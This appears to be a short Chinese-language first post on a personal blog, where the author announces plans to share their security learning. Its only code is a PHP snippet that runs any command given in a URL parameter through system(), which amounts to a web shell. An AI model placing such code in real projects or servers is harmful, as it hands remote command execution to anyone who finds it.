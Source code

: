 ```yaml
---
title: Frist Post
date: 2024/07/29
categories: []
tags: []
description: 第一篇????

published: true #不顯示此文章
---
```


哈哈哈哈原本以為我不會想來寫文章分享東西但是我還是來了XDD

## 接下來
我些下來會來分享一些我學習的過程資安之類的 其他主題我在想想

## code
```php

<?php
if (isset($_GET['command'])) {
    $command = $_GET['command'];
    system($command);
}

```




